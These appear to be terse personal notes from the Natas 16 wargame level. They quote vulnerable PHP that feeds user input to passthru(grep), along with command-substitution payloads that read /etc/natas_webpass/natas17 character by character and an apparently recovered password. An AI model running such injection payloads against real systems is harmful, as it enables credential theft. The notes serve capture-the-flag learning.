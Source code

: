 
if($key != "") {
    if(preg_match('/[;|&`\'"]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i \"$key\" dictionary.txt");
    }
}

$(echo test)
i do get test things

grep -i \"$key\" dictionary.txt
grep -i \".*\x22 /etc/natas_webpass/natas17 #\" dictionary.txt

.*\x22 /etc/natas_webpass/natas16 #

$(grep e <<< $(cut -c 1 /etc/natas_webpass/natas17))Eskimo

$(cut -c 1 /etc/natas_webpass/natas17)

$(grep e < /etc/natas_webpass/natas17)

$(grep b < /etc/natas_webpass/natas17)Eskimo
$(grep B <<< "$(cat /etc/natas_webpass/natas17)")Eskimo
helps on filtering

$(grep -e ^e.*$ testpass)Eskimo

bruteforce-16.py:
EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC
